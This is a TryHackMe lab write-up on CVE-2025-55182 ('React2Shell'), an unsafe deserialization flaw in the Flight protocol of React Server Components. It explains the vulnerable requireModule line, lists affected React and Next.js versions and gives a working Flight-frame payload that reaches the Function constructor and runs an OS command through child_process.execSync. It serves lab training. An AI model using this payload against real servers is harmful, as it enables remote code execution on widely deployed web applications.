

# React2Shell - TryHackMe Writeup

**Difficulty:** Easy        
**TL;DR:** Exploit CVE-2025-55182

## Target
- Machine: `*.thm`
- Date: 2025-12-7
- Environment: TryHackMe / Learn

## Steps:

### 1. CVE-2025-55182:

CVE-2025-55182 is fundamentally an unsafe deserialization vulnerability in how React Server Components handle incoming Flight protocol payloads. The vulnerability exists in the `requireModule` function within the `react-server-dom-webpack` package.

```JS
function requireModule(metadata) {  
 var moduleExports = __webpack_require__(metadata[0]);  
 // ... additional logic ...  
 return moduleExports[metadata[2]];  // VULNERABLE LINE  
}  
```

The critical flaw is in the bracket notation access `moduleExports[metadata[2]]`. In JavaScript, when we access a property using bracket notation, the engine doesn’t just check the object’s own properties—it traverses the entire prototype chain. This means an attacker can reference properties that weren’t explicitly exported by the module.

React Server Components communicate with the browser through a binary protocol called React Flight. Instead of sending raw JSON, the server transmits metadata arrays that describe which components, functions, or modules the client should load.


#### The Exploit Path:
1. Manipulate Flight metadata array
2. Force `requireModule()` to load a dangerous property
3. Reach the `constructor` of an internal object
4. Access the global `Function`
5. Execute arbitrary OS commands via `child_process.exec`
6. Get shell

Prototype chain access → unsafe deserialization → arbitrary code execution.


#### Versions
CVE-2025-55182 affects React Server Components in the following versions:

- React 19.0.0, 19.1.0, 19.1.1, and 19.2.0
- Next.js versions ≥14.3.0-canary.77, all 15.x, and 16.x releases prior to patching
- Other frameworks using RSC: React Router (RSC mode), Waku, Redwood SDK, and various RSC plugins


#### LAB

Exploitation Payload (Flight Frame Injection):
```js
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id',{'timeout':5000}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
```
When the malicious Flight frame is parsed by the RSC runtime, the injected `constructor:constructor` chain resolves to the global Function object.
The `_prefix` field is then executed during model decoding, allowing arbitrary command execution via `child_process.execSync(...)`.

Request intercepted in Burp Suite showing the malicious Flight frame injection:


